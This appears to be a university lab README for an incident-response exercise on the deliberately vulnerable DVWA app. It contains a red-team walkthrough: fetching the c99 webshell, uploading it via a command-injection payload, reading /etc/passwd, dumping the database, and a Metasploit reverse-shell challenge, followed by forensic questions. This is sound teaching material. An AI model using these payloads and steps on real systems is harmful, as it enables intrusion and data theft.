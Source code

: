 # Week 1 - Dam Vulnerable Web App(DVWA)
This week we are using DVWA for our incident response demo. DVWA provides a broken webapp that is ready to be hacked out of the box. Docker was platform of choice because if a container becomes corrupted just restart it :).

## Presentation
Intro to IR: https://docs.google.com/presentation/d/1SOx2SieLxJHPF1jzgPRR2ax-q90MurRFvVshQwSP46s/edit?usp=sharing

## Setup demo
### AWS EC2 & security group
0. Create Ubuntu 16.04 EC2 instance
0. Restrict AWS security group inbound to RIT IP address range and outbound to NONE

### Ansible playbook
0. vim hosts and add IP addr of host under "[dvwa]"
0. ansible-playbook -i hosts deploy_dvwa.yml

### Create Demo Docker container
0. ssh to host
0. docker run -d -p 80:80 infoslack/dvwa
0. docker ps
0. docker exec -it [docker container ID] bash
0. apt update -y && apt install vim htop net-tools git wget -y

### WebGUI setup
0. Browse to http://dvwa.hackinglab.beer 
0. Select "Create/Reset database" at the bottom
0. Select "Login"
0. Login
    1. username: admin
    1. password: password
0. Select "DVWA security" on the left
0. Set the security level to "low"
0. Continue to red teaming section

## Perform red teaming
### Nikto scanner
0. nikto -host http://dvwa.hackinglab.beer

### Zip, upload and unzip c99.php
0. wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php
0. gzip -f c99.php
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter "8.8.8.8; /bin/gunzip -v ../../hackable/uploads/c99.php" into "Enter ip address"
0. Browse to http://dvwa.hackinglab.beer/hackable/uploads/c99.php

### Host situation awareness
0. Get current user: whoami
0. Get ip info: ip a
0. Get hostname: hostname
0. Get list of users: cat /etc/passwd
0. Get connection info: netstat -tunalp
0. Get process list: ps aux
0. Get known hosts: arp -a

### Dump database
0. mysql -u root -e "show databases;"
    1. There is no root password
0. mysql -u root -e "use dvwa; show tables"
0. mysqldump -u root --database dvwa

### Commit Docker container
0. Enter "exit" to detach from docker container
0. docker commit [docker container ID] dvwa_demo_temp
0. docker stop [docker container ID]
0. docker run -d -p 80:80 --restart always --name dvwa_demo dvwa_demo_temp

### Restart Docker container if corrupted
0. docker restart dvwa_demo

## Incident reponse demo
### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system(OS) of the attacked machine?
0. What is the kernel of the attacked machine?
0. What is the timezone of the attacked machine?
0. What is the IP address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What network services are listening on the attcked machine? -- include ports
0. What users are on the attacked machine?

### Become the cyber detective
0. What are the version numbers of all the listening services?
0. Do the services have any known vulnerabilities? What sources/tools did you use?
0. Where are the web server logs located?
0. What is the diff between the error.log and access.log? What information do these logs provide?
0. What are the user permissions of the log files? Why does this matter?
0. What is the timezone and time format of the webservers logs? Why does this matter?
0. What is the hackers's IP address?
0. What is the hacker's user-agent?
0. What is the operating system(OS) of the hacker's machine?
0. What webshell did the attacker use? 
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Give a brief description how the attacker stole the data?
0. Lookup three mitigations for next week.

## Scripting challenges
0. Create a Github account and repo called “DFIRtooklit”
    1. Choose your own repo name
    1. Repo can be private or public -- your choice - mine is private
    1. If you don’t create a repo you won't receive any points.
0. Create a script in with a programming language of your choice to do everything in the “understanding the machine” section, items listed below, and then add three of your own.
    1. Create a script(s) that will parse webserver logs for:
    1. Unique list(no duplicates) of user ip addresses
    1. Unique list(no duplicates) of URIs 
    1. Unique list(no duplicates) of CMDs run by c99
    1. Unique list(no duplicates) of CMD responses by c99
    1. OUTPUT MUST BE PRETTY

## Red team challenge
### Create red team challenge container
#### Start container
0. docker run -d -p 8080:80 infoslack/dvwa
0. docker ps
0. docker exec -it [docker container ID] bash
0. apt update -y && apt install vim htop net-tools git wget -y

#### WebGUI setup
0. Browse to http://dvwa.hackinglab.beer:8080
0. Select "Create?reset database" at the bottom
0. Select "Login"
    1. Username: admin
    1. Password: password
0. Login
0. Select "DVWA security" on the left
0. Set the security level to "medium"

#### Commit Docker container
0. Enter "exit" to detach from docker container
0. docker commit [docker container ID] dvwa_pwn_temp
0. docker stop [docker container ID]
0. docker run -d -p 8080:80 --restart always --name dvwa_pwn dvwa_pwn_temp

### Create a PHP reverse shell with Metasploit
* attack: http://dvwa.hackinglab.beer:8080
* DO NOT ATTACK port 80

### Restart Docker container if corrupted
0. docker restart dvwa_pwn

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html
